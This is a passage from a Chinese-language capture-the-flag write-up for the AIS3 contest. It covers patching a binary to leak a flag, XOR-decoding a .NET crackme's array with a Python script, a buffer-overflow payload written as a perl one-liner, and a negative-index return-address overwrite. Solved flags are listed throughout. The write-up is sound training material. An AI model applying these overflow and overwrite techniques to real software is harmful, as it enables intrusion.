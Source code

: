 我們可以patch到讓它直接噴flag

把 `jne xx` 改成 `nop`
把 `xor v4` 改成 `xor v6`

然後他會把flag噴到`/tmp/secret`

`AIS3{tHere_1s_a_VErY_VerY_VeRY_1OoO00O0oO0OOoO0Oo000OOoO00o00oG_f1@g_iN_my_m1Nd}`


### crackme

看一下可以知道是.net program
直接尻`dnspy`

可以看到一條陣列，一臉flag樣:

`a = [234, 226, 248, 152, 208, 154, 223, 244, 226, 158, 244, 238, 234, 216, 210, 244, 223, 228, 244, 232, 249, 159, 200, 192, 244, 230, 206, 138, 214]`

直接根據程式邏輯尻一個腳本:  (他其實直接每個字元 xor 171就是flag惹)

```python
b = ''
for i in range(len(a)):
    b += chr(a[i] ^ 171)
print b
```

`AIS3{1t_I5_EAsy_tO_CR4ck_Me!}`


### calc

執行檔是用go寫的

賽中用ida pro看到眼睛脫窗，沒解出來

## Pwn

### mail

就...單純的Buffer overflow

`perl -e 'print "A"x40,"\x96\x07\x40\x00\x00\x00\x00\x00"'`

`AIS3{3hY_d0_yOU_Kn0uu_tH3_r3p1Y?!_I_d0nt_3ant_t0_giu3_QwQ}`

### darling

這題只能往低的位址蓋，不能往高位蓋

所以蓋不到當前stack frame的return address

但是他後面會call printf，我們可以蓋掉它的return address:


`-5`

`4196310` (debug的位址)
